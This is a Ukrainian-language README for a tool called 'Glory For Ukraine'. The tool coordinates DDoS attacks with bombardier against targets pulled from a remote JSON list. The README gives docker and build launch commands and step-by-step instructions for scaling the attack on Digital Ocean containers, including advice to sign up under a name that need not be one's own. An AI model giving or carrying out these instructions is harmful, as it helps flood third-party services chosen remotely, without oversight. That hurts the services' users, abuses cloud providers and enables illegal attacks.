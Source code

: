 # Glory For Ukraine

DDOS координатор, використовуючий bombardier на один з хостів указаний в scheduled_targets.json, скачаний з https://gloryforukraine.pages.dev/scheduled_targets.json

## Як використати

Запуск через докер: `docker run --env SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json --env PARALLEL_FACTOR=5 --cpus=".7" --rm -it archdev/gloryforukraine`

Запуск через білд: 
- install NodeJS 16+
- git clone
- cd gloryforukraine
- npm i
- `./scripts/launch.sh` or `.\scripts\launch.bat`

# Як засетапи Gloryforukraine на Digigal Ocean App Platform

1. Зареєструйте аккаунт на Digital Ocean:
    [Посилання за рефералом](https://m.do.co/c/aa9c8e1fc61f) - дає $100 на рахунок
    По особистим данним - будь яке ім'я (можна не своє) АЛЕ: робочий імейл до якого у вас є доступ - він потрібен щоб залогінитись по лінку який прийде вам на імейл (2FA)
    Також вам потрібна робоча банківська карта (укр карти Моно на Привата раніше працювали, віртуальні карти теж UK банків теж працюють)
    (Гроші НЕ БУДУТЬ зніматись відразу, лише через місяц)
2. Створіть новий апчик в Create > Apps
3. Виберіть Docker Hub
4. в Image введіть: `archdev/gloryforukraine`, tag - залишіть пустим (`latest`) 
5. ОБОВ'ЯЗКОВО: Type > **Worker** (по замовчуванню там Web Service)
6. Також додайте `Environment Variables`: `SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json` та `PARALLEL_FACTOR=5`
7. Виберіть Регіон - можна Європу або Азію - будь який
8. Finalise and Launch - виберіть аккаунт Pro - і в Containers: Pro - штук 10 має вистачити
